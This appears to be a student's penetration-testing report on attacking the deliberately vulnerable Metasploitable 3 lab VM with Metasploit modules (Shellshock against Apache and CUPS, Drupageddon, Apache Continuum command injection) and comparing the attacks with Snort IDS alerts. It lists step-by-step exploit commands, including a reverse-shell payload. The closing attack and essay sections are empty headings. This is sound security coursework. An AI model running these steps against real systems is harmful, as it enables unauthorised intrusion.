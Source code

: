 # Penetration Testing Report on Metasploitable 3 (Linux)

## Introduction

This report details the penetration testing performed on the [Metasploitable 3 (Linux)](https://github.com/rapid7/metasploitable3) operating system using [Metasploit](https://www.metasploit.com/). Five different attacks were carried out, with three being identifiable by the [Snort](https://www.snort.org/) Intrusion Detection System (IDS) and two going undetected. The report provides a brief description of each attack, including the targeted component, execution method, and Snort output for detected attacks. Additionally, it includes an essay on the benefits and shortcomings of using intrusion detection systems.



## IDENTIFIED ATTACK 1: Apache HTTP Server RCE

### Description

**Component Targeted:** Shellshock Bash Vulnerability / Apache web server with CGI scripts

**Execution Method:** This attack exploits the Shellshock vulnerability, a flaw in how the Bash shell handles external environment variables. It targets CGI scripts in the Apache web server by setting the HTTP_USER_AGENT environment variable to a malicious function definition. [CVE-2014-6271](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/apache_mod_cgi_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /cgi-bin/hello_world.sh`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2025869:2] ET WEB_SPECIFIC_APPS ELF file magic plain Inbound Web Servers Likely Command Execution 12 [**] [Classification: Attempted User Privilege Gain]          [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80      
[**] [1:1336:5] WEB-ATTACKS chmod command attempt [**]                                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                                            
[**] [1:100000122:1] COMMUNITY WEB-MISC mod_jrun overflow attempt [**]                                            [Classification: Web Application Attack]                 [Priority: 1] {TCP} 172.28.128.1:56642 -> 172.28.128.3:80                                                            
[**] [1:2022028:1] ET WEB_SERVER Possible CVE-2014-6271 Attempt [**]                                              [Classification: Attempted Administrator Privilege Gain] [Priority: 1] {TCP} 172.28.128.1:56643 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 2: Drupal Drupageddon

### Description

**Component Targeted:** Drupal Web Application

**Execution Method:** This attack exploits a remote code execution vulnerability in Drupal (versions 7.0 to 7.31), commonly referred to as "Drupageddon". The vulnerability allows an attacker to execute arbitrary PHP code on the web server by exploiting an SQL injection vulnerability in the Drupal HTTP Parameter Key/Value handling. [CVE-2014-3704](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-3704)

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/drupal_drupageddon`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the target URI: `set TARGETURI /drupal/`
4. Execute the attack: `run`

**Snort Output:**
```
[**] [1:2012887:2] ET POLICY HTTP POST contains pass= in cleartext [**] [Classification: Potential Corporate Privacy Violation] [Priority: 1] {TCP} 172.28.128.1:58460 -> 172.28.128.3:80 
```



## IDENTIFIED ATTACK 3: CUPS Filter Bash Environment Variable Code Injection (Shellshock)

### Description

**Component Targeted:** CUPS (Common UNIX Printing System)

**Execution Method:** This attack exploits a remote code execution vulnerability in the CUPS printing system by leveraging the Shellshock vulnerability in Bash. The vulnerability allows an attacker to inject and execute arbitrary code via manipulated environment variables passed to the CUPS filters.

**Preparation:** Before performing the attack, ensure the `vagrant` user is added to the `lpadmin` group on the Metasploitable box, as the exploit requires elevated privileges to execute properly.
```
usermod -a -G lpadmin vagrant
```

**Steps in Metasploit:**
1. Select the exploit: `use exploit/multi/http/cups_bash_env_exec`
2. Set the target IP: `set RHOST <target_ip>`
3. Set the CUPS username: `set HttpUsername vagrant`
4. Set the CUPS password: `set HttpPassword vagrant`
5. Set the payload to use a reverse TCP connection: `set PAYLOAD cmd/unix/reverse_ruby`
6. Configure the local host IP for the payload: `set LHOST  <listen_ip>`
7. Execute the attack: `run`

**Snort Output:**
```
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58859 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58862 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631                                                                
[**] [1:1768:7] WEB-IIS header field buffer overflow attempt [**] [Classification: Web Application Attack] [Priority: 1] {TCP} 172.28.128.1:58864 -> 172.28.128.3:631 
```



## MISSED ATTACK 1: Apache Continuum Arbitrary Command Execution

### Description

**Component Targeted:** Apache Continuum

**Execution Method:** By injecting a command into the installation.varValue POST parameter to /continuum/saveInstallation.action, a shell can be spawned.

**Steps in Metasploit:**
1. Select the exploit: `use exploit/linux/http/apache_continuum_cmd_exec`
2. Set the target IP: `set RHOSTS <target_ip>`
3. Execute the attack: `run`

**Reason for Missing:** Snort missed this attack because `rules/policy-other.rules` was not in use. (as per the [snort.conf](https://cybersecuritybase.mooc.fi/19231e84dafffa079550777b17d8fb3e/snort.conf) provided by the course)
Only thing Snort notice was:
```
[**] [1:620:10] SCAN Proxy Port 8080 attempt [**] [Classification: Attempted Information Leak] [Priority: 2] {TCP} 172.28.128.1:58585 -> 172.28.128.3:8080
```
which is a port scan notification (same you would get for using `nmap`) and by the instructions of the course __"[...] does *not* count as an attack"__.


## MISSED ATTACK 2:
**description**

## ESSAY: The benefits and shortcomings of using intrusion detection systems
